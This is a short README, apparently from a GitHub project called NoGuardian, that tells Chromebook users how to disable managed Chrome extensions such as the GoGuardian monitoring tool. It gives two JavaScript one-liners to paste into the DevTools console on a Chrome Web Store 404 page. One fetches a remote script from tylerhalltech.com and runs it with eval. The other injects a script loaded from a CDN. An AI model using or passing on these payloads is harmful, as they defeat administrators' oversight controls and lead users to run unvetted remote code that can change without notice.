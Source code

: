 # noguardian
Exploit to Disable Chrome Extentions (to Bypass GoGuardian)

# NoGuardian ChomeBook Bypass

Here are the steps to exploit to ChromeBook Extensions (to Bypass GoGuardian)

UPDATE: JUST GO HERE: https://tylerhalltech.com/noguardian

## 1) PREPARE EXPLOIT
Copy the code here:

## Code #1
```
fetch(`https://tylerhalltech.com/exploit.js`).then(data=>{data.text().then(text=>{eval(text)})});
```

## Code #2 (BETTER THAN #1)
```
(function () {var a = document.createElement('script');a.src = 'https://cdn.jsdelivr.net/gh/FogNetwork/Ingot@latest/ingot.min.js';document.body.appendChild(a);}())
```


## 2) LOAD 404 PAGE

Go to `https://chrome.google.com/webstore_`

Press Ctrl + Shift + I on the 404 page to open Chrome's Developer Tools.

Go to the CONSOLE tab

Paste the code from step 1 here and press enter

You should now be able to disable any Google Chrome extension (including GoGuardian)
